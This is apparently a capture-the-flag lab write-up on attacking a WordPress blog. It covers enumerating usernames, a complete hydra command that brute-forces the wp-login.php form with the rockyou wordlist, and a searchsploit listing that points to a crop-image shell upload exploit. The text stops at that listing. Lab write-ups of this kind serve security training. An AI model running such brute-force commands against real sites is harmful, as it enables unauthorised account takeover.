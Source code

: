 ### Wordpress scanning

Okay, so here's the deal. I don't like the new model of `wpscan`, so I avoid having to create an account to get an API key etc. I tried running the "alternative" `vane`, ofcourse it is quite old and barely works. But after some really hard work, I got two usernames:
```
bjoel
kwheel
```

Please just use `wpscan` and dont be as stubborn as I am. Also, `wpscan` is not needed, clicking on the post authors name under their post is just fine! Their username is then included in the url like so: `http://blog.thm/author/kwheel/`

time for some hydra

### Hydra

Using 
```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.4.221 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:S=302"
```
I found the password for the user `kwheel`. 

### Finding vulnerabilities

`vane` wasnt that bad afterall, atleast it told us the wordpress version! Using the `wappalyzer` browser extension works just fine. 
Run `searchsploit Wordpress 5.0` and we get this output:
```
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                   |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Core 5.0 - Remote Code Execution                                                                                                                                       | php/webapps/46511.js
WordPress Core 5.0.0 - Crop-image Shell Upload (Metasploit)                                                                                                                      | php/remote/46662.rb      <--------- notice this
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                                                                                                          | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                                                                                                                          | php/dos/47800.py
WordPress Plugin Custom Pages 0.5.0.1 - Local File Inclusion                                                                                                                     | php/webapps/17119.txt
WordPress Plugin Database Backup < 5.2 - Remote Code Execution (Metasploit)                                                                                                      | php/remote/47187.rb
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                                                                                              | php/webapps/39553.txt
WordPress Plugin FeedWordPress 2015.0426 - SQL Injection                                                                                                                         | php/webapps/37067.txt
WordPress Plugin iThemes Security < 7.0.3 - SQL Injection                                                                                                                        | php/webapps/44943.txt
```